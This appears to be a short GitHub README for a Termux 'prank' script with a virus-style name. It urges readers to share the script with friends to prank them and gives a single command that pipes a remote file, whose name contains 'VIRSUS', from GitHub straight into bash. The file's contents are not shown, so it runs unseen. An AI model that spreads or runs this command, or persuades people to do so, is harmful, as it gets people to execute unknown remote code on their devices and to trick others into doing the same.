 # -R4ZY_K-LL-R_2-NEXT-GEN
Upgrade's from the old version "ÇR4ZY_KÏLLÁR"

Script Prank, Share this to your friend to prank them😈
Run on Termux!
```bash
curl -sL https://raw.githubusercontent.com/HikkiV/-R4ZY_K-LL-R_2-NEXT-GEN/main/VIRSUS_%C3%87R4ZY_K%C3%8FLL%C3%81R_2NEXT | bash```
